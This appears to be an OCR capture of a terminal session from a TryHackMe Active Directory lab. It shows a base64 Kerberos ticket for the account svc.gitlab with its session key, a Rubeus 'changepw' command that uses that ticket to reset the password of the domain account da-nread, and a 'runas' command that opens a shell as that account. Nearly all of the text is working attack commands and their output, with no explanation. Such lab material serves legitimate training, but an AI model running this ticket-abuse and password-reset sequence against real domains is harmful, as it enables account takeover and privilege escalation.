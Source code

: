 ```
      L8JJe/3Wy4+z4V6AsWhQLx8Z7MIy3WnuksuEz8ga3e2Ctf8XMgQQpFyAybOtFritZz/adXL+pKfkh6Kc
      Px7WrCUYX/Sy6XHBe1abMEA9bfSousjh7U9eeJoJKfPXUQwtDPCYOf9xkagJoSQzSY8joVtoIOTSCW4g
      k3hsv5mgNFXFoY51HjqDvHs5AVo/2ksMH6CcHa1uzzcMZDUDwwK7YMSxevd9QeG1J0FZ843zOkybSis4
      qFENWce/cVAo5b3tr0R/uoIDBTbQMVDCe94eV088CJ8gp+AedCAjjBLx/WH7qwo9YIwWtg7ZXp/Wu1gQ
      zfyrVxzZrbfZBCgxUItgmRkubpZprX/OPKInC66/AiaG5RAEIdJ9NLLqFRp1X99XawnAwxCaI0hJ530X
      /zvbSr4ODKKcYv9tSfkmcWQi64cnwaIP3an1QltlCm8fTr3pdnwEqWHEJIVORIFi8hSzryCXf3SqdL5M
      lUQxKd3jVMQmRkw++aeo7aBdmFZTeIqyyzsfyP7nIveDiJXTBc3uX4jY6TNxl20j1l3pfx0uixEBmD2/
      POnvQntqRCgsopm9++2P8JhxwRWwvghyOododg6qeVZ3qAJRQLr12+cbG4XJxKoEx8oiuhpnDWh5s1at
      IPQCNVfHtOQvfm8w3r1cPek4MT9ZvJ3p4/Y7XF75Vvh/qV+X+SWEzZvUFD9uClna2ci92ZELGj8187DT
      qhZMLZzod+yQz4B8BrxVvW4Ze5SIfWjN4CESgZwS5e36IIVA6lcfCSk21HKFlsCm/KWv57CeBEKg1M2U
      ebMj//Kd9BHuDbaYuRjWyqLrKljFn5NaQEYrCvB2PLbuLJOtwlmCEnqU9tIBu/u7dehre197kdeyC8g6
      7XenWwgg7VWAkfej718dfO/Fo9DlGSvhr6NC4kxtfAuy2SbIo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
      gdowgdcwgdSgKzApoAMCARKhIgQg3832DqrnXYcqvcXlOqCSc/d8aLy/YveH0Q/uPyOYHKuhERsPTFVO
      QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIzMDIxNjIy
      MDE1M1qmERgPMjAyMzAyMTcwODAxNTNapxEYDzIwMjMwMjIzMjIwMTUzWqgRGw9MVU5BUi5FUlVDQS5D
      T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ==

[*] Ticket written to svc.gitlab.kirbi


  ServiceName              :  krbtgt/lunar.eruca.com
  ServiceRealm             :  LUNAR.ERUCA.COM
  UserName                 :  svc.gitlab
  UserRealm                :  LUNAR.ERUCA.COM
  StartTime                :  2/16/2023 10:01:53 PM
  EndTime                  :  2/17/2023 8:01:53 AM
  RenewTill                :  2/23/2023 10:01:53 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  3832DqrnXYcqvcXlOqCSc/d8aLy/YveH0Q/uPyOYHKs=
  ASREP (key)              :  DF239E189CEA50C908B720FB54553EC7196637F1A2B6249529FDD2FBBE019D6D

C:\THMTools>cd C:\Users\Administrator
Access is denied.

C:\THMTools>.\Rubeus.exe changepw /ticket:svc.gitlab.kirbi /new:Tryhackme! /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-nread

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Reset User Password (AoratoPw)

[*] Using domain controller: LUNDC.lunar.eruca.com (10.10.221.143)
[*] Resetting password for target user: lunar.eruca.com\da-nread
[*] New password value: Tryhackme!
[*] Building AP-REQ for the MS Kpassword request
[*] Building Authenticator with encryption key type: aes256_cts_hmac_sha1
[*] base64(session subkey): 3aTfRgoViYIW1zUNrDuU7JbyysmakjG5USyhepge+hg=
[*] Building the KRV-PRIV structure
[+] Password change success!

C:\THMTools>runas /user:lunar.eruca.com\da-nread cmd.exe
Enter the password for lunar.eruca.com\da-nread:
Attempting to start cmd.exe as user "lunar.eruca.com\da-nread" ...

Microsoft Windows [Version 10.0.17763.1098]
```